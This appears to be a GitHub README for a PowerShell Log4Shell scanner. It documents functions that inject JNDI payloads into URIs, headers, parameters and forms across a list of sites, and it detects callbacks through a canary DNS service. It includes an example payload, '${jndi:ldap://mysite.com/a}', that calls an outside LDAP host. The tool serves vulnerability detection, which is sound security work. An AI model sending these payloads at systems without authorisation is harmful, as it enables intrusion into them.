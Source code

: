 # Invoke-Log4ShellScanner
Powershell module for Log4Shell

### Usage:

>_PS>. .Invoke-Log4ShellScanner.ps1_  
>_PS>Invoke-Log4ShellScanner -Uri [sites file] -CanaryTokenDNS [canary token/ custom IP/DNS] -Headers [headers file] -Forms -Quick_  
>_PS>Invoke-Log4ShellFastScan -Uri [sites_file] -CanaryTokenDNS [canary token/ custom IP/DNS]_  
>_PS>Invoke-Log4ShellCheckForms -Uri [url_address] -Payload 

> * _-Uri_ - file that contains URLs to scan (https://example.com example in example-sites.txt)
> * _-CanaryTokenDNS_ - IP address or domain name of OOB service which provide us the logs
> * _-Headers_ - file that contains headers to test (all-headers.txt)
> * _-Forms_ - switch to enable forms checking [OPTIONAL]
> * _-Quick_ - switch to provide fast scan (only 2 payloads are being tested) [OPTIONAL]  
> * _-Payload_ - payload parameter (eg ${jndi:ldap://mysite.com/a})  

###Description  
The Invoke-Log4ShellScanner is a powershell script that provides 3 functions:  
1) _Invoke-Log4ShellScanner_  
The most advanced scan can test provided site pool for obfuscated payloads by sending GET,POST and optionally forms. The payload is placed inside the URI, choosen Headers and arguments of POST method and GET URI.  
2) _Invoke-Log4ShellFastScan_  
The simplest scan that uses basic payload and one obfuscated. Payload is placed inside the URI, parameter for GET method and "User-Agent" header.  
4) _Invoke-Log4ShellCheckForms_  
The function which perform checking the site (one URL) for forms and then placing the payload into the forms and send POST.  

The example files: _all-headers.txt, example-sites.txt_

# TODOS:  
[ ] The scanner cant crawl or spidering the site  
[ ] There are issues with some forms  
[ ] Port Scannner and possibilities to scan FTP/SQL and other potential services will be good.  
